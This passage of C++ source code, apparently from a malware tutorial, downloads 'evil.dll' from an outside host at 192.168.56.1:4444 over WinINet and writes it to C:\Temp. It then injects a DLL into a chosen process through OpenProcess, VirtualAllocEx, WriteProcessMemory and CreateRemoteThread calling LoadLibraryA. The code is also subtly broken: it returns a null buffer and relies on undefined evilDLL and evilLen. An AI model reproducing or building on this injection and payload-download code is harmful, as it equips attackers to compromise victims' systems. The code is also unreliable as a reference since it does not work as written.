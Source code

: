 ```cpp
  HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
  HINTERNET hHttpFile = InternetOpenUrl(hSession, (LPCSTR)"http://192.168.56.1:4444/evil.dll", 0, 0, 0, 0);
  DWORD dwFileSize = 1024;
  char* buffer = new char[dwFileSize + 1];
  DWORD dwBytesRead;
  DWORD dwBytesWritten;
  HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  do {
    buffer = new char[dwFileSize + 1];
    ZeroMemory(buffer, sizeof(buffer));
    InternetReadFile(hHttpFile, (LPVOID)buffer, dwFileSize, &dwBytesRead);
    WriteFile(hFile, &buffer[0], dwBytesRead, &dwBytesWritten, NULL);
    delete[] buffer;
    buffer = NULL;
  } while (dwBytesRead);

  CloseHandle(hFile);
  InternetCloseHandle(hHttpFile);
  InternetCloseHandle(hSession);
  return buffer;
}

// classic DLL injection logic
int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");
  char* evil = getEvil();

  // parse process ID
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i\n", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```
